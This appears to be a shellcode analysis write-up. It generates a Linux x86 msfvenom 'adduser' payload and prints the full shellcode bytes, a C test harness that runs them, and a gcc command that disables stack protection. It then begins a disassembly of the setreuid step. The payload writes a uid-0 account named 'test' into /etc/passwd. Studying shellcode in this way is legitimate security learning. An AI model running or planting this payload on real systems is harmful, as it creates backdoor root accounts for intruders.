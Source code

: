 Generating the shellcode with msfvenom:
{% highlight js %}
kali@kali:~$ msfvenom -p linux/x86/adduser -f c USER=test PASS=test SHELL=/bin/sh 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 91 bytes
Final size of c file: 409 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x74\x65"
"\x73\x74\x3a\x41\x7a\x35\x51\x36\x50\x70\x47\x77\x64\x4b\x57"
"\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73"
"\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd"
"\x80";
{% endhighlight %}

Compile the shellcode with shellcode.c:
{% highlight js %}
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x74\x65"
"\x73\x74\x3a\x41\x7a\x35\x51\x36\x50\x70\x47\x77\x64\x4b\x57"
"\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73"
"\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd"
"\x80";

int main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}

gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

Note:
When executing the shellcode, the attacker has to already have root access otherwise the user won't be added.

Let's break down each part of the code to understand what it does. 
{% highlight js %}
note: in "/usr/include/i386-linux-gnu/asm/unistd_32.h", 0x46 is #define __NR_setreuid 70
;set both ruid and euid to 0 in the setreuid() system call

00000000  31C9              xor ecx,ecx ;zero out the ecx
00000002  89CB              mov ebx,ecx ;set ebx to 0
00000004  6A46              push byte +0x46; push 0x46 onto the stack
00000006  58                pop eax ;set eax to 0x46
00000007  CD80              int 0x80 ;kernel interruption
{% endhighlight %}
